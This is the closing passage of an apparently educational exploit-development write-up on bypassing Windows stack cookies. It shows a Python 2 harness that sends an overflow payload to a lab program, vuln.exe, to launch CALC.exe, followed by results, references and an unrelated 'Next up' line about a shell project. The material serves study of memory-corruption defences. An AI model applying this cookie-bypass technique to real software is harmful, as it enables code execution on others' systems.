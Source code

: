 ```python
  # Craft exploit on the fly while vuln.exe waits for more input from STDIN in overflow()
  payload = create_payload(addr[0], addr[1])

  # Send exploit through stdin pipe
  p.stdin.write(payload + "\n")

  read = p.stdout.readline() # main() prints "read>" prompt

  done = p.stdout.readline() # main() prints "done" if overflow() returns normally

  if done:
    # read() is skipped when scanf() leaves an unsatisfied newline in the buffer
    print "[x] Rerun"  # Alert user that payload was never sent
  else:
    print "{0} (Sent {1} byte payload that executes CALC.exe)\n".format(read, len(payload))
    print "[+] Exploit of vuln.exe successful!!"

if __name__ == '__main__':
  main()
```


### Results

Again, we have a fully working exploit that executes our arbitrary shellcode.  With some additional work, we are still able to use our exploit from Stage 1 to overwrite the return address of `vuln()` and redirect program behavior arbitrarily.  Using the Stack Cookie bypass technique described above, we successfully overwrote the stack with the correct security cookie to pass the check and execute our shellcode completely undetected.   

Based on these results and in the presence of a memory leak vulnerability, we can say that Stack Cookie protection does not strengthen or influence CFGuard in any noticeable way.



# References and Further Reading
[1]: https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check
1. [/GS (Buffer Security Check)](https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check)

1. [GS cookie protection - effectiveness and limitations](https://blogs.technet.microsoft.com/srd/2009/03/16/gs-cookie-protection-effectiveness-and-limitations/)
2. [Exploit Writing Tutorial Part 6 by Corelan Team](https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/)
3. [/GS (Buffer Security Check)](https://msdn.microsoft.com/en-us/library/8dbf701c.aspx)


*Next up, in [part 2]() we launch shirt outside the context of another shell and implement some built-in commands.*


[Section 1]: #overview-of-windows-mitigations "overview of mitigations"
[Section 2]: #vulnerability "GS vulnerability"
[Section 3]: #exploit-development
[Section 4]: #running-the-exploit
[earlier]: #overview-of-windows-mitigations "overview"
[2]: https://en.wikipedia.org/wiki/Buffer_overflow_protection#Random_XOR_canaries
[As previously discussed]: #prologue-and-epilogue "prologue and epilogue"
[previous section]: #leveraging-memleak-vulnerability "leveraging memleak vulnerability"
[next section]: #finding-return-address "finding return address"
[more on this later]: #running-the-exploit
[skip]: #results "skip to next section"